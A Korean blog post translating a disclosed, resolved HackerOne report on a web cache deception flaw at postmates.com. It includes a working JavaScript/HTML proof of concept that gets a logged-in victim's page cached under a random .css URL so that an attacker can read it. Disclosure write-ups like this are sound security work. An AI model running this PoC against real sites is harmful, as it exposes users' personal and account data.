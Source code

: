 ```yaml
---
layout: post
title: 사용자 정보를 유출시킬 수 있는 웹 캐시 포이즈닝 (postmates.com)
categories: PoC
tags: [Bugbounty, CachePoisoning, Translation, Hackerone]
---
```

Web Cache Poisoning에 대해 설명되어있는 유튜브 영상 :
{% include youtube_embed.html id="1d1tUefYn4U" %}
- - -
출처 : [hackerone hacktivity, 작성자 : David Albert (davidalbert)] https://hackerone.com/reports/492841

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 2월 26일 오후 9시 37분에 공개되었습니다. Postmates에 리포팅 되었으며, 해당 페이지는 Postmates의 자산입니다. 취약점의 종류는 Violation of Secure Design Principles이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 해당 도메인에서 8.2/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
안녕하세요,

당신의 웹 서버는 웹 캐시 포이즈닝 공격에 취약합니다. 이 말은 즉, 공격자가 다른 사용자의 정보를 탈취할 수 있다는 것입니다.

예를 들어, 당신이 이 페이지에 방문하여 로그인을 한다고 가정하면 : https://postmates.com/SomeRandomText.css

서버는 캐시에 그 정보를 저장할 것입니다. 하지만 로그인 된 사용자의 정보가 저장이 될 것입니다 🙂 로그인하지 않은 사용자 여기 해당 사이트에 방문이 가능하며 그곳에 저장되어있는 정보를 볼 수 있습니다. 이 경우에는 다음 url이 해당됩니다 : https://postmates.com/SomeRandomText.css

저는 간단한 javascript/html 코드를 작성했고, 이것은 해당 공격을 완전히 자동화해서 실행시킬 수 있는 코드로, 당신은 해당 사이트에 방문해 3초만 기다리시면 됩니다.

여기 간단한 개념증명(PoC) 코드가 있습니다 :
{% highlight html %}
<html>
<head>
</head>
<body>
<script>
    var cachedUrl = 'https://postmates.com/' + generateId() + '.css';
    const popup = window.open(cachedUrl);

    function generateId() {
        var content = '';
        const alphaWithNumber = 'QWERTZUIOPASDFGHJUKLYXCVBNM1234567890';

        for (var i = 0; i < 10; i++) {
            content += alphaWithNumber.charAt(Math.floor(Math.random() * alphaWithNumber.length))
        }
        return content;
    }

    var checker = setInterval(function() {
        if (popup.closed) {
            clearInterval(checker);
        }
    }, 200);
    var closer = setInterval(function() {
        popup.close();
        document.body.innerHTML = 'Victims content is now cached <a href="' + cachedUrl + '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' + cachedUrl + '</b>'; 
        clearInterval(closer);
    }, 3000);

</script>
</body>
</html>
{% endhighlight %}
<div id="container">
	<div id="box">
		<img src="{{site.baseurl}}/images/1_Logged_in_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/2_Logged_in_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/3_Not_Logged_in_(Private_Mode).png">
	</div>
</div>
<div id="container">
	<div id="box">
		<img src="{{site.baseurl}}/images/4_Not_Logged_in_(Private_Mode).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/5_Logged_in_Victim_visits_attackers_website_(Normal).png">
	</div>
	<div id="box">
		<img src="{{site.baseurl}}/images/6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode).png">
	</div>
</div>
<img src="{{site.baseurl}}/images/7_Attacker_can_get_important_informations_(Private_Mode).png">

이론상으로, 공격자는 이 정보를 그 자신만의 서버에 저장할 수 있지만, 이 예시에서는 URL이 단지 보여지기만 했습니다. 웹사이트 보안을 위해 꾸준히 지켜봐주셨으면 합니다 그리고 제 리포트가 도움이 되었길 희망합니다.

해당 공격에 대한 몇가지 정보 : https://www.blackhat.com/docs/us-17/wednesday/us-17-Gil-Web-Cache-Deception-Attack.pdf

덧1) 개념증명(PoC) 프로젝트로써, 팝업을 허용하는 것은 중요합니다. 깜빡했네요 여기 첨부 파일이 있습니다 :  
<a href="{{site.baseurl}}/attach/postmatesPoC.html" download>postmatesPoC 다운로드</a>

덧2) 지난번에 전혀 방문하지 않았던 URL이어야 합니다. 그러면 성공할 것이고 서버는 정보를 저장하게 될 것 입니다. URL의 끝은 반드시 ".css"로 해주세요.
- - -
# 영향
웹 캐시 포이즈닝 공격은 로그인 보안에 중요한 이름과 멤버 아이디와 같은 사용자 정보들을 훔칠 수 있습니다(예시로요).